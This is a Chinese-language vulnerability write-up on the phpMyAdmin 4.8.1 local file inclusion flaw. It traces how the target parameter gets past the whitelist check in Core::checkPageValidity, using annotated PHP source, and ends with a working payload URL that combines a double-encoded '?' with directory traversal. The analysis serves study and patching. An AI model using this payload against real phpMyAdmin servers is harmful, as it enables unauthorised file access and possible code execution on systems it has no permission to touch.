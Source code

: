 # phpmyadmin 文件包含漏洞

### 范围

**4.8.1** 及 **4.8.1** **以前**



### 解析

##### 触发位置 : `index.php`

![1530370713008](img/1.png)

##### 触发原理 :

- 当 `if` 中的条件均满足时候，就触发了。

- 如何满足 `if` 中的条件：

  1. 提交时存在 `target` 参数，经过测试，需要用 `GET` 方法提交。

  2. `$_REQUEST['target']` 为字符串。

  3. 头部不含有 `index` 。

  4. 没有在 `$target_blacklist` 数组中。

  5. **检测函数： `Core::checkPageValidity`**

     - `Core::checkPageValidity` 

       白名单图
       ![白名单](img/2.png)

     ```php
     // 假设 target为：target=db_sql.php%253f/../../../../../../../../../home/code/language/php/xampp/xampp/htdocs/test.html
     //判断是否在白名单中，如果在，则返回true。白名单如图
     if (in_array($page, $whitelist)) {
                 return true;
             }
     // 通过？截断一次
     // target=db_sql.php%253f/../../../../../../../../../home/code/language/php/xampp/xampp/htdocs/test.html
      $_page = mb_substr(
                 $page,
                 0,
                 mb_strpos($page . '?', '?')
             );      
     // 判断截断后是否在白名单
     // 关于为何不能在这里触发，因为如果在这里触发，那么包含的文件路径就是：
     // db_sql.php？/../../../../../../../../../home/code/language....
     // 而 系统中不允许出现含有？的路径
     if (in_array($_page, $whitelist)) {
                 return true;
             }
     // 解码一次
     //target=db_sql.php%3f/../../../../../../../../../home/code/language/php/xampp/xampp/htdocs/test.html
     // 即 target=db_sql.php?/../../../../../../../../../home/code/language/php/xampp/xampp/htdocs/test.html
      $_page = urldecode($page);
     // 再截断
      $_page = mb_substr(
                 $_page,
                 0,
                 mb_strpos($_page . '?', '?')
             );
     // target= db_sql.php
     //  再次判断是否在白名单，如果在的话返回 true
     if (in_array($_page, $whitelist)) {
                 return true;
             }
     ```

- payload

  ```javascript
  http://127.0.0.1/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../../home/code/language/php/xampp/xampp/htdocs/test.html
  ```



### 遇到的问题

- windows下文件包含漏洞的路径问题：

  - 如果代码与所要包含的路径在同一磁盘内，则：

    db_sql.php%253f/../../../../../../../../../home/code/language/php/xampp/xampp/htdocs/test.html

  - 如果不在同一个磁盘……

    尚未解决
